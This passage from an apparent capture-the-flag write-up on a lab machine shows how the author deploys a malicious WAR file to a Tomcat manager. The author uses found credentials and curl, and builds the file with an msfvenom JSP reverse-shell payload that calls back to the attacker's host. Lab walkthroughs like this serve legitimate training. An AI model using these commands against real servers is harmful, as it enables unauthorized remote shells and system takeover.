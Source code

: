 
Unlike the `/manager` web interface, the `/manager-host` page did not include upload functionality. After enumerating the web interface for a while, I went back to the main page and realised that it had another link to the `host-manager-howto` page: <http://10.10.10.194:8080/docs/host-manager-howto.html>. This page provided us with a bunch of information including the types of commands that you can run via command line in order to upload `.war` files to the host. Unlike the web interface however, this was only accessible via the `/manager` extension and not the `/manager-host` extension.  To ensure that we had access to the command line interface, I used the following curl command:

```bat
curl -v -u 'tomcat:$3cureP4s5w0rd123!' 'http://10.10.10.194:8080/manager/text/list'
```

As the command provided us with output, I knew that it was possible to interact with the manager via command line which meant that it was time to try and create a reverse shell. In order to achieve this, I started by creating a WAR file with msfvenom. The following link has a ton of information, regarding creating Metasploit Payloads: <https://netsec.ws/?p=331>. Since we needed to create a WAR file, I used the following command:

```bat
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.147 LPORT=1234 -f war > shell.war
```

Now that we have a WAR file, we needed to upload the file to the tomcat manager. The following StackOverflow post had some really useful information on how to achieve this: <https://stackoverflow.com/questions/25029707/how-to-deploy-war-file-to-tomcat-using-command-prompt>. 

From the above post -- one of the examples used curl as shown below:

```bat
curl -v -u user:password -T app.war 'http://tomcathost/manager/text/deploy?path=/my-app-path&update=true'
```

Modifying this curl command, we were able to upload our own WAR file:

```bat
curl -v -u 'tomcat:$3cureP4s5w0rd123!' -T shell.war 'http://10.10.10.194:8080/manager/text/deploy?path=/shell&update=true'
```

<p class="imgMiddle">
<img src="/assets/img/ChallengeVMs/Tabby/img8.png"  style="width: 80%" />
</p>
